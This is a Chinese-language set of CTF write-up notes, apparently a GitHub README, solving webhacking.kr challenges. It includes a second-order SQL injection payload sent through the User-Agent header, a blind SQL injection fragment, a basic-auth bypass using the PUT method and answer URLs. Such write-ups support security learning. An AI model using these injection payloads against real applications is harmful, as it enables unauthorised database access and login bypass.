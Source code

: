 # WebHacking

-   Online Link: [WebHacking](http://webhacking.kr/challenge/)

## web-01

## web-02

-   检查`index.php`源码，发现`<area shape="rect" coords="851,7,890,65" href="admin/" target="" alt="" />·`
-   访问`/admin`，需要login

## web-03

-   `http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111`

    > 管理页面
    > 注意事项
    > 要小心，不要管理员密码被泄露。
    > 请参考您正在使用它的第一次手动分钟。（手动密码：@ dM1n\_\_nnanual）

## web-08

-   二次注入，需要掌握整个流程
    -   [源码分析](./web_08/index.php)
    -   注入点 `$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");`
    -   此处 agent 是可控的，而且没有针对 ''', ',', '#' 进行防护
-   第一次：`admin','1','admin')#` -> `USER-AGENT done! (0/70)`
-   第二次：`admin` -> `USER-AGENT hi admin`

## web-09

-   Basic access authentication(HTTP 基本认证)
    -   本题针对 GET 以及 POST 方法进行了基本认证，而忽略了PUT方法，由此绕过
-   `substr(id,1,1)in(0x42,0x41)`

## web-10

-   [查看源码](./web_10/code1.html)，其中关键代码
    ```html
    <a id=hackme style="position:relative;left:0;top:0" onclick="this.style.posLeft+=1;if(this.style.posLeft==800)this.href='?go='+this.style.posLeft" onmouseover=this.innerHTML='yOu' onmouseout=this.innerHTML='O'>O</a>
    ```
-   可知需要访问`?go=800`

## web-13

> HINT : select flag from prob13password
